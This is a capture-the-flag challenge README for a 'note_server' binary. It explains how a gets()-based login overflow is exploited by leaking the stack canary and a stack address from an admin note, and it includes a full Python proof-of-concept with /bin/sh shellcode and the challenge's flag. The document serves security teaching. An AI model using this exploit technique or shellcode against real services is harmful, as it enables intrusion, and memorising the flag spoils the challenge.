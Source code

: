 # note_server

## Category
Exploit

## Estimated difficulty
Medium

## Description
A more complicated buffer overflow protected by a canary that can be easily leaked.
Can be run with:
  sudo docker build -t note_server .
  sudo docker run -d -p "0.0.0.0:3333:9999" -h "note_server" --name="note_server" note_server


## Scenario
We are currently working on a note taking platform and some developer are a bit worried about the security of the product already at this early development phase. They ask you if you could have a look and report them any vulnerability you find.
The service can be found at the following IP on the port PORT.


## Write-up
After reversing and playing with the executable, we find out that the login function is vulnerable to a buffer overflow on the username and password due to the usage of gets.
However when we try to exploit it we receive a `*** stack smashing detected ***` meaning that the function is protected by canaries.

After more digging we find the user and password of the application (admin/admin). There we find multiple entries with one called info.
That entry seems to give us the address of the stack and the canary.
We can use those informations to create our exploit but, since the canary contains a null byte we need to use the password field to write it at the required place.

We can then create our shellcode using all those information for the username and fill the missing "\x00" with the end of password.

## PoC script
```
import telnetlib
from struct import pack
IP = "127.0.0.1"
PORT = 3333

shellcode = b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"

t = telnetlib.Telnet(IP, PORT)

t.read_until(b">> ")
t.write(b"1\n")
t.read_until(b": ")
t.write(b"admin\n")
t.read_until(b": ")
t.write(b"admin\n")
t.read_until(b">> ")

t.write(b"3\n")
info = t.read_until(b">> ")
ret = pack("<L", int(info[133:139]+b"B0", 16))
canary = pack("<L", int(info[221:229], 16))

t.write(b"4\n")
t.read_until(b">> ")

user = b"A" * 40+ b"A"+canary[1:] + b"A"*12 + ret + b"\x90"*100 + shellcode
password = b"B" * 20

t.write(b"1\n")
t.read_until(b": ")
t.write(user+b"\n")
t.read_until(b": ")
t.write(password+b"\n")

print("ls:")
t.write(b"ls\n")
print(t.read_some().decode())

print("flag:")
t.write(b"cat flag.txt\n")
print(t.read_some().decode())
```

## Flag
CSC{Canar13s_Ar3nt_h4rd!!}

## Creator
Romain Fontaine

## Creator bio
Cyber security analyst working at the CERT.be. Mostly working in reverse engineering and cryptography.

